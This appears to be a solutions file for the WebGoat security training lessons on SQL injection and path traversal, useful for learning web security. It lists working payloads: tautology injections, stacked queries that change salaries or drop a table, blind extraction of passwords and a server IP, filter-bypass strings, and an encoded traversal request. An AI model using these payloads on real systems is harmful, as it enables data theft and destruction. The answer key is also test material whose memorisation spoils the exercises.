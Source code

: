 # SQL Injection (Intro)
### 2 SELECT department FROM employees WHERE userid = 96134
### 3 UPDATE employees SET department = 'Sales' WHERE last_name = 'Barnett'
### 4 ALTER TABLE employees ADD phone varchar(20)
### 5 GRANT ALL ON grant_rights TO unauthorized_user
### 9 ['] [or] ['1'='1]
SELECT * FROM user_data WHERE first_name = 'John' and last_name = 'Smith' or '1' = '1'
### 10 [1] [1 or 1=1]
SELECT * From user_data WHERE Login_Count = 1 and userid= 1 or 1=1
### 11 [] [' OR 1 =1 --]
### 12 '; UPDATE employees SET salary=100000 WHERE last_name = 'Smith' -- 
### 13 '; DROP TABLE access_log

# SQL Injection (Advanced)
### 3 [';SELECT * FROM user_data WHERE last_name = 'Smith'; SELECT * FROM user_system_data --'] []
### 5 tom' AND '1'='1
    returns: User {0} already exists please try to register with a different username.

   tom' AND '1'='2
    returns: User tom' AND '1'='2 created, please proceed to the login page.

   what means that register form changes output based on bool value returned by query.
   We will use script inject_script.py which sends 'tom\' AND substring(password,{password_index + 1},1)=\'{alphabet[alphabet_index]}' in put method to register field
### 6
    1.4
    2.3
    3.2
    4.3
    5.4

# SQL Injection (Mitigation)
### 5
    getConnection
    PreparedStatement statement
    prepareStatement
    ?
    ?
    statement.setString(1, pName)
    statement.setString(2, pMail)

### 6
try {
    Connection conn = DriverManager.getConnection(DBURL, DBUSER, DBPW);
    String query = "SELECT first_name, last_name, FROM users WHERE acct_id = ?";
    PreparedStatement statement = conn.prepareStatement(query);
    statement.setString(1, "sdsd");
    ResultSet results = statement.executeQuery();
} catch (Exception e) {
    System.out.println("Oops. Something went wrong!");
}

### 9
'OR'1'='1';SELECT/**/*/**/FROM/**/user_system_data;--

### 10
'SSELECTELECT' -> leaves SELECT

'sSELECTelect/**/*/**/fFROMrom/**/USER_SYSTEM_DATA;--'

### 12
(CASE WHEN (SELECT substring(ip, 1, 1) FROM servers where hostname = 'webgoat-prd') = '1' THEN ip ELSE mac END)
(CASE WHEN (SELECT substring(ip, 1, 2) FROM servers where hostname = 'webgoat-prd') = '10' THEN ip ELSE mac END)
(CASE WHEN (SELECT substring(ip, 1, 3) FROM servers where hostname = 'webgoat-prd') = '104' THEN ip ELSE mac END)


ip = 104.130.219.202

# Path Traversal
### 2
1. open ZAP
2. add some file
3. start breakpoint with HTTP request header
4. change to Text type (up)
4. go all the way down in text message and change fullName = ../gabi

### 3 
....//test in username field is enough

### 4 
Use ZAP, change filename field to '../gabi'

### 5
1. Burp
2. open web browser
3. go to page 5
4. start intercatping
5. click gen random cat
6. sento to repeater (ctr+r)
7. change first line to:
GET /WebGoat/PathTraversal/random-picture?id=%2e%2e%2f%2e%2e%2fpath-traversal-secret HTTP/1.1

You found it submit the SHA-512 hash of your username as answer
sha512(gabriel) = 5dbe7d079067809bb06f7c80de78ecb9d914f5735265148cd704f85353fc0b5114ebbfc960539cd3f430e7b12eb3fdc261726bb756bab9658c6db6a302913df1

### 7
Make new zip file, with any file. It passes